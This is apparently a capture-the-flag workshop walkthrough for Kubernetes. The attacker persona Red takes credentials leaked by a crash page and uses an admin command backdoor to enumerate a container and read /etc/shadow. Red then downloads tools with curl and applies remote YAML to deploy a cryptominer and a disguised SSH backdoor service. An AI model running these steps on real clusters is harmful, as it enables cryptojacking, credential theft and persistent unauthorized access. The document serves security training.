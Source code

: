 # Free Compute: Scenario 1 Attack

## Warning

In these Attack scenarios, we're going to be doing a lot of things that can be crimes if done without permission. Today, you have permission to perform these kinds of attacks against your assigned training environment.

In the real world, use good judgment. Don't hurt people, don't get yourself in trouble. Only perform security assessments against your own systems, or with written permission from the owners.

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ has been mining `bitcoinero` for a few months now, and it's starting to gain some value
* __Red__ is looking for free-to-them compute on which to run miners
* __Red__ purchased some leaked credentials from the dark web

## Thinking In Graphs

Attacking a system is a problem-solving process similar to troubleshooting: __Red__ begins with a goal (deploy an unauthorized cryptominer) but doesn't really know what resources are available to achieve that goal. They will have to start with what little they already know, perform tests to learn more, and develop a plan. The plan is ever-evolving as new information is gleaned.

The general process looks like this:

![attack lifecycle](img/attack-lifecycle.png)

* __Study__

    In this phase, use enumeration tools to start from the information you have, and get more information. Which tools to use will depend on the situation. For example, `nmap` is commonly used to enumerate IP networks. `nikto`, `burp`, and `sqlmap` are interesting ways to learn more about web applications. Windows and Linux administrative utilities such as `uname`, `winver`, and `netstat` provide a wealth of information about their host OSes.

* __Plan__

    In this phase, think about everything you currently know, and what actions you can take based on that knowledge. If you think you can do something that will help you get closer to your goal, move onto Attack. Otherwise, go back to Study and try to learn more.

* __Attack Something__

    In this phase, you take some action in the hope of getting closer to your goal. This may be running an exploit tool against a buggy piece of software, launching some kind of credential-guessing utility, or even just running a system command like kubectl apply. Your success or failure will teach you more about your target and situation. Move on to Study, Persist, or Win, as appropriate.

* __Persist__

    In this optional phase, you take some action to make it easier to re-enter the system or network at a later time. Common options are running a malware Remote Access Tool such as Meterpreter, creating new accounts for later use, and stealing passwords.

* __Win__

    Eventually, you may achieve your goals. Congratulations! Now you can stop hacking and begin dreaming about your next goal.

## Getting Access

__Red__ team found an app online and ran a [dictionary attack](https://www.techtarget.com/searchsecurity/definition/dictionary-attack) against it.  Some valid paths were `/crash` and `/admin`.  Let's try to find an exploit!

To find the compromised website, run the following:
```
./scenario_1/attack-1-helper.sh
```

In your browser, go to URL provided (e.g. `http://<IP>:8080/`)

Hmm.  "Nothing to see here."?  They're probably wrong.

Let's try the Admin page: `http://<IP>:8080/admin`.  Hrm.  It's asking for credentials.  Since it was a browser popup (instead of an in-app request), it probably uses [Basic Auth](https://en.wikipedia.org/wiki/Basic_access_authentication).

Let's try the Crash page: `http://<IP>:8080/crash`

Looks like we've crashed the app!  And it prints out all of the environment variables.  Oh goodie.  There's two that seem to be especially interesting (AUTH_USERNAME and AUTH_PASSWORD).  Let's go back to the Admin page and try those.

Go back to the Admin page: `http://<IP>:8080/admin` and enter the credentials we just got.  

And we're in!  Looks like Frank left a backdoor to run some commands.  Let's see what we can learn:

```console
id
```

```console
uname -a
```

```console
cat /etc/os-release
```

```console
ps -ef
```

```console
df -h
```

Note that there are very few processes running. This is probably a container.

```console
cat /etc/shadow
```
```console
ls -l /
```
```console
ls -l $PWD
```
```console
echo $PATH
```

Can we add files to the default PATH?
```console
touch /usr/local/bin/foo && ls /usr/local/bin/
```

Let's follow-up on that idea that it's maybe a container and verify with [amicontained](https://github.com/genuinetools/amicontained):

```console
cd /usr/local/bin; curl -L -o amicontained https://github.com/genuinetools/amicontained/releases/download/v0.4.7/amicontained-linux-amd64; chmod 555 amicontained; ./amicontained
```

This tells us several things:

* We are in a container, and it's probably managed by Kubernetes
* Some security features are not in use (userns)
* Seccomp is disabled, but a number of Syscalls are blocked
* We don't have any exciting capabilities. <a href="http://man7.org/linux/man-pages/man7/capabilities.7.html" target="_blank">Click for more capabilities info.</a>

Now let's inspect our Kubernetes environment:

```console
env | grep -i kube
```
```console
ls /var/run/secrets/kubernetes.io/serviceaccount
```

# Deploy Bitcoin miner + backdoor

We have typical Kubernetes-related environment variables defined, and we have anonymous access to some parts of the Kubernetes API. We can see that the Kubernetes version is modern and supported -- but there's still hope if the Kubernetes security configuration is sloppy. Let's check for that next:

```console
cd /usr/local/bin; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"; chmod 555 kubectl
```
```console
kubectl get all
```
What workloads are deployed in all of the namespaces?
```console
kubectl get all -A
```
What operations can I run on this cluster?
```console
kubectl auth can-i --list
```
Can I create pods?
```console
kubectl auth can-i create pods
```

It looks like we have hit the jackpot! Let's see if we can start mining some crypto.
```console
kubectl apply -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/bitcoinero.yaml; sleep 10; kubectl get pods
```

We can see the bitcoinero pod running, starting to generate a small but steady stream of cryptocurrency. But we need to take a few more steps to protect our access to this lucrative opportunity. Let's deploy an SSH server on the cluster to give us a backdoor in case we lose our current access later.

```console
kubectl apply -n kube-system -f https://raw.githubusercontent.com/azure/aks-ctf/refs/heads/main/workshop/scenario_1/backdoor.yaml
```

Wait ~10 seconds for the Public IP to be exposed
```console
kubectl get svc metrics-server-service -n kube-system -o table -o jsonpath='{.status.loadBalancer.ingress[0].ip}'
```

Our Bitcoin miner is now deployed and we've also deployed an SSH backdoor.  Mission Accomplished.


